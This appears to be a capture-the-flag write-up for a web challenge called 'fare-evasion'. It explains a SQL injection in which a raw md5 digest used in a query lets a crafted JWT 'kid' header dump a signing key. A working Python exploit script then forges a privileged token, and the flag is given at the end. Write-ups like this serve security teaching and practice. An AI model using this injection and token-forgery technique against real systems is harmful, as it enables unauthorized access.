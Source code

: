 https://ctftime.org/event/2275

# fare-evasion (web)

Unusual sqli challenge

## Solution
The bug happens because of not calling `.hex()` on the result of the md5
So if we can find some hash with `'1=1` or something like that we can dump the whole db
Fortunately someone already wrote about that a decade ago:
https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes

```python
#!/usr/bin/env python3
import requests
import jwt
import hashlib

REMOTE = "https://fare-evasion.chal.uiuc.tf/pay"

sqli = '129581926211651571912466741651878684928'

j = jwt.encode(
    {"type": "passenger"},
    key='a_boring_passenger_signing_key_?',
    algorithm="HS256",
    headers={"kid": sqli, "typ": "JWT"},
)
res = requests.post(REMOTE, cookies={'access_token': j})

ck = "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"

j = jwt.encode(
    {"type": "passenger"},
    key=ck,
    algorithm="HS256",
    headers={"kid": "conductor_key", "typ": "JWT"},
)

res = requests.post(REMOTE, cookies={'access_token': j})
print(f"DEBUGPRINT[2]: lab.py:28: res.text={res.text}")
```

## Flag
`uiuctf{sigpwny_does_not_condone_turnstile_hopping!}`

shafouz 2024/06/29
